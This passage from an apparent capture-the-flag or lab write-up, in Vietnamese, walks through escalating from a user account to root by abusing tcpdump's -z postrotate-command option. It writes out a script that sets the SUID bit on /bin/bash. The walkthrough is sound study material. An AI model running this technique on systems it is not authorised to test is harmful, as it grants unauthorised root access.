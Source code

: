 ![alt text](image-71.png)

### Nang quyen ( User -> Root)
Kiểm tra quyền của người dùng hiện tại với mk đã biết ở trên ta phát hiện 
![alt text](image-72.png)

Kiểm tra các tham số hoạt động của tcpdump qua tham số man
```bash
┌──(userktxm2㉿kali)-[~]
└─$ man tcpdump
```

Ta có thể lợi dụng điều này để tận dụng tùy chọn postrotate-command (-z) . Bằng cách chỉ định cờ -z, ta có thể sử dụng tcpdump để thực thi một tập lệnh shell, giành được
shell ngược với tư cách là người dùng root hoặc chạy các lệnh đặc quyền khác.
Ta tạo script thực thi 
```bash
echo "chmod +s /bin/bash" > /tmp/shell.sh
chmod +x /tmp/shell.sh
```
![alt text](image-73.png)
